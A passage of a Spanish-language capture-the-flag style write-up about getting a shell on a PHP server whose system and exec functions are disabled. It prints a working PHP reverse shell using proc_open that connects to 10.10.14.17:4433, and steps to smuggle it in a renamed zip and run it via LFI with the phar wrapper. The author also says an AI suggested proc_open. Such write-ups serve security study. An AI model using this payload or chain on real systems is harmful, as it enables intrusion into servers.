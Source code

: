 ![](updown8.jpg)

Efectivamente, parece que funciona correctamente, dependiendo el contexto, lo que normalmente coloco en un php es su phpinfo() para ver que funciones se encuentran deshabilitadas y cuales no para poder realizar alguna reverse shell.
Por lo que se puede ver, casi todas las funciones normales como "system, exec, etc" se encuentran desahibilitadas, por lo que pidiendo ayuda a la IA, existe una que tambien podria usarse para inciar procesos como una shell, esto es con "proc_open".
Buscando en internet algunas formas de explotarlo, encontre lo siguiente:
~~~bash
cat poc4.php

<?php
$comando = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.17/4433 0>&1'"; // Ejemplo de comando
$descritores = [
    0 => ['pipe', 'r'], // stdin
    1 => ['pipe', 'w'], // stdout
    2 => ['pipe', 'w']  // stderr
];
$process = proc_open($comando, $descritores, $pipes);
?>
~~~
Asi que realizando los mismos pasos:
1. Comprimir el archivo php en un zip con  otra extensión.
2. Subir el archivo.
3. Realizar el LFI con el wrapper PHAR a la ruta del archivo php.
~~~bash
cat poc4.php 

<?php $comando = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.17/4433 0>&1'"; $descritores = [0 => ['pipe', 'r'], 1 => ['pipe', 'w'], 2 => ['pipe', 'w']]; $process = proc_open($comando, $descritores, $pipes); ?>

zip zx.zx poc4.php 
  adding: poc4.php (deflated 33%)
~~~
